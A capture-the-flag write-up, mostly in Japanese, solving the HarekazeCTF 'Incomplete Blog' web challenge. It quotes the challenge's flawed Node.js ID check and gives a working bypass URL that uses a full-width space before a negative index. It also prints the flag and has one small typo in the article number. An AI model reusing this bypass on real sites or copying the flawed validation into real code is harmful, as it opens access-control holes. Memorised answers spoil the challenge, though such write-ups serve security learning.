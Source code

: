 # Incomplete Blog:Web:201pts
JavaScriptでブログを作ってみました。  
ただ、まだ開発中ですし、有料記事のための課金システムも今頑張って作っているところで未完成です。なので、一部の有料にするつもりの記事は閲覧できません。ごめんなさい😉  
[http://incomplete-blog.harekaze.com](http://incomplete-blog.harekaze.com/)  
添付ファイル:  
- [incomplete-blog.zip](incomplete-blog.zip)  

---

I made a blog with JavaScript.  
This blog is currently under development. I'm working hard to implement a payment system for reading premium content, but it is not ready yet. So, more than 9000 articles that will be premium content are not available so far. Sorry for the inconvenience😉  
[http://incomplete-blog.harekaze.com](http://incomplete-blog.harekaze.com/)  
Attachments:  
- [incomplete-blog.zip](incomplete-blog.zip)  

# Solution
サイトにアクセスすると記事が見れるようだ。  
Incomplete Blog  
[site.png](site/site.png)  
`/article/0`などで記事の中身が見られるようだが、10以上はアクセスできない。  
incomplete-blog.zipが配布されており、以下のようであった。  
```js
~~~
// generate articles
let articles = [];
for (let i = 0; i < 10000; i++) {
  articles.push({
    title: `Dummy article ${i}`,
~~~
  });
}
articles[1337] = {
  title: 'Flag',
  content: `Wow, how do you manage to read this article? Anyway, the flag is: <code>${flag}</code>`
};
~~~
app.get('/article/:id', async (request, reply) => {
  // id should not be negative 
  if (/^[\b\t\n\v\f\r \xa0]*-/.test(request.params.id)) {
    return reply.view('article.ejs', {
      title: 'Access denied',
      content: 'Hacking attempt detected.'
    });
  }

  let id = parseInt(request.params.id, 10);

  // free users cannot read articles with id >9
  if (id > 9) {
    return reply.view('article.ejs', {
      title: 'Access denied',
      content: 'You need to become a premium user to read this content.'
    });
  }

  const article = articles.at(id) ?? {
    title: 'Not found',
    content: 'The requested article was not found.'
  };
~~~
```
1337番目の記事にフラグがあり、`^[\b\t\n\v\f\r \xa0]*-`が禁止されている。  
jsの`at`は負の数でも要素をとれるが、`-`で開始することも禁止されている。  
ここで`parseInt`は全角スペースを挿入してもうまく動作することに気づく。  
```bash
$ node
> parseInt(" -1",10)
-1
> parseInt("　-1",10)
-1
```
あとは`全角スペース-(10000-1337)`で133番目の記事が閲覧できる。  
`http://incomplete-blog.harekaze.com/article/%E3%80%80-8663`にアクセスしてやればよい。  
[flag.png](site/flag.png)  
flagが得られた。  

## HarekazeCTF{I_d0nt_kn0w_h0w_t0_m4ke_ctf_ch4llenges_t4sukete}